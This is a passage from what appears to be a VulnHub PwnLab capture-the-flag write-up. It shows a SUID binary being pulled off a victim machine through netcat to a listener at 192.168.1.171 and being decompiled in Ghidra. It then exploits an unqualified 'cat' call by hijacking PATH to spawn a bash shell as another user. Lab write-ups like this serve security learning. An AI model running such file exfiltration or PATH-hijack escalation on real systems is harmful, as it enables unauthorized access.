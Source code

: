 ```bash
AGCXBAhgBwAABAAAAAAAAAAAAAAAAQAAAAAAAAD9AAAAAQAAADAAAAAAAAAAYAcAADkAAAAAAAAA
AAAAAAEAAAABAAAAEQAAAAMAAAAAAAAAAAAAAJkHAAAGAQAAAAAAAAAAAAABAAAAAAAAAAEAAAAC
AAAAAAAAAAAAAACgCAAAUAQAAB0AAAAtAAAABAAAABAAAAAJAAAAAwAAAAAAAAAAAAAA8AwAAHwC
AAAAAAAAAAAAAAEAAAAAAAAA
```

We copy this base64 string to a file called `msgmike.b64` on our machine and then we can decode it:

```bash
$ cat msgmike.b64 | base64 -d > msgmike.bin
$ file msgmike.bin 
msgmike.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d7e0b21f33b2134bd17467c3bb9be37deb88b365, not stripped
```

#### Method #2: nc

- Attacker's machine:

```bash
$ nc -l -p 4444  > msgmike < /dev/null
^C
```

- Victim's machine:

```bash
$ cat msgmike | nc 192.168.1.171 4444
```

### Analyzing the binary

Thanks to `file` command, we already know that the binary is not stripped which means that it contains symbols that will ease the analysis.

#### ghidra decompilation

Passing the binary to `ghidra`'s decompiler, we can retrieve code close to the original source code:

![main ghidra](https://amirr0r.github.io/assets/img/vulnhub/linux/pwnlab/ghidra.png)

The binary use `system` function to run `cat`. But there is an issue. Indeed `cat` is called without its absolute path. So if we change our `$PATH` variable and name a malicious binary `cat`, it will be executed with mike's privileges _(since it's a SUID binary)_.

### Exploitation

```bash
kane@pwnlab:~$ which bash
/bin/bash
kane@pwnlab:~$ echo "/bin/bash" > ./cat
kane@pwnlab:~$ cat ./cat
/bin/bash
kane@pwnlab:~$ chmod +x ./cat
kane@pwnlab:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
kane@pwnlab:~$ export PATH=.
kane@pwnlab:~$ ./msgmike
bash: dircolors: command not found
bash: ls: command not found
mike@pwnlab:~$ id
id
bash: id: command not found
mike@pwnlab:~$ export PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
</usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games                    
mike@pwnlab:~$ id
```